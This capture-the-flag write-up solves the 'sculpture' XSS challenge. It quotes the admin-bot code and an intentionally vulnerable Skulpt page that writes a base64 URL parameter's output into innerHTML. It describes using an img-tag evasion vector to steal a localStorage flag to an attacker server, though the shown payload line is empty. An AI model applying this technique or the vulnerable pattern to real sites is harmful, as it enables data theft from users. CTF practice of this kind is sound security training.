

# sculpture

> Client side rendered python turtle sculptures, why don't we play around with them.
> 
> Remote (for use in admin bot): https://amateurs-ctf-2024-sculpture-challenge.pages.dev 
> 
> Admin Bot: http://admin-bot.amt.rs/sculpture

Solution:

We are given with two files:
1. `index.html` - which contains the source code of the challenge web page
2. `admin-bot-excerpt.js` - obviously the source for the admin bot

Let's take a look at the admin bot source first...

```js
// bot powered by the redpwn admin bot ofc
['sculpture', {
    name: 'sculpture',
    timeout: 10000,
    handler: async (url, ctx) => {
      const page = await ctx.newPage()
      console.log(await page.browser().version());
      await page.goto("https://amateurs-ctf-2024-sculpture-challenge.pages.dev/", { timeout: 3000, waitUntil: 'domcontentloaded' })
      await sleep(1000);
      await page.evaluate(() => {
        localStorage.setItem("flag", "amateursCTF{fak3_flag}")
      })
      await sleep(1000);
      console.log("going to " + url)
      await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' })
      await sleep(1000)
    },
    urlRegex: /^https:\/\/amateurs-ctf-2024-sculpture-challenge\.pages\.dev/,
}]
```

So our flag is stored in the localStorage, and usually we can retrieve it via XSS.

Now let's take a look at the challenge web page

```html

<html> 
<head> 
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.9.0/jquery.min.js" type="text/javascript"></script> 
<script src="https://skulpt.org/js/skulpt.min.js" type="text/javascript"></script> 
<script src="https://skulpt.org/js/skulpt-stdlib.js" type="text/javascript"></script> 

</head> 

<body> 

<script type="text/javascript"> 
// output functions are configurable.  This one just appends some text
// to a pre element.
function outf(text) { 
    var mypre = document.getElementById("output"); 
    mypre.innerHTML = mypre.innerHTML + text; 
} 
function builtinRead(x) {
    if (Sk.builtinFiles === undefined || Sk.builtinFiles["files"][x] === undefined)
            throw "File not found: '" + x + "'";
    return Sk.builtinFiles["files"][x];
}

// Here's everything you need to run a python program in skulpt
// grab the code from your textarea
// get a reference to your pre element for output
// configure the output function
// call Sk.importMainWithBody()
function runit() { 
   var prog = document.getElementById("yourcode").value; 
   var mypre = document.getElementById("output"); 
   mypre.innerHTML = ''; 
   Sk.pre = "output";
   Sk.configure({output:outf, read:builtinRead}); 
   (Sk.TurtleGraphics || (Sk.TurtleGraphics = {})).target = 'mycanvas';
   var myPromise = Sk.misceval.asyncToPromise(function() {
       return Sk.importMainWithBody("<stdin>", false, prog, true);
   });
   myPromise.then(function(mod) {
       console.log('success');
   },
       function(err) {
       console.log(err.toString());
   });
}

document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});

</script> 

<h3>Try This</h3> 
<form> 
<textarea id="yourcode" cols="40" rows="10">import turtle

t = turtle.Turtle()
t.forward(100)

print "Hello World" 
</textarea><br /> 
<button type="button" onclick="runit()">Run</button> 
</form> 
<pre id="output" ></pre> 
<!-- If you want turtle graphics include a canvas -->
<div id="mycanvas"></div> 

</body> 

</html> 
```

In this part:

```
document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});
```

We can determine that adding a URL parameter of `code=base64EncodedCodeHere` will execute our desired code to do XSS

Also, looking at the imported libraries, it uses Skulpt, for an in-browser implementation of Python. https://skulpt.org/


Visting the challenge web page will show a sample, as inteded based on the source file

I tried doing `print('<script>alert(1)</script>')` but it didn't work.

Decided to check https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html and found `</img>` working


Alright, let's extract the localStorage item then exfiltrate it to our web server.

```
print('')
```

Can be encoded to base64 using Cyberchef or other tools.


Submitted...



Boom!

Flag: `amateursCTF{i_l0v3_wh3n_y0u_can_imp0rt_xss_v3ct0r}`